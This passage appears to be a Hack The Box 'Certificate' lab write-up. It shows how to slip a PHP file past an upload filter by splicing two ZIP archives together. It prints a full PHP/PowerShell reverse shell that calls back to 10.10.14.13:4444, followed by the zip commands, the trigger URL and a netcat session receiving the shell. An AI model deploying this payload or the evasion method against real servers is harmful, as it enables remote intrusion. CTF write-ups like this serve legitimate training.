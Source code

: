 If the compressed package directly contains PHP files, it will also be detected, so the compressed package splicing method is adopted here. The decompression tool usually only reads the last valid ZIP directory.
There is blog explaining how to exploit that
`https://www.bleepingcomputer.com/news/security/hackers-now-use-zip-file-concatenation-to-evade-detection/`

Firstly, let's prepare a reverse shell
```
<?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',4444); \$stream = \$client.GetStream(); [byte[]]\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){; \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>
```

Then we can compress them
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ mkdir malicious      
                                                                                      
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ mv shell.php malicious 

┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ zip head.zip test.pdf 
  adding: test.pdf (deflated 15%)

┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ zip -r tail.zip malicious 
  adding: malicious/ (stored 0%)
  adding: malicious/shell.php (deflated 60%)

┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ cat head.zip tail.zip > main.zip

```

Upload the `main.zip` and go the upload path to triggering a reverse shell
```
http://certificate.htb/static/uploads/8ad6b1453a685cd6a629959dcfb5039d/malicious/shell.php
```

Then you can get the reverse shell 
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.71] 64149
whoami
certificate\xamppuser
PS C:\xampp\htdocs\certificate.htb\static\uploads\8ad6b1453a685cd6a629959dcfb5039d\malicious> 

```
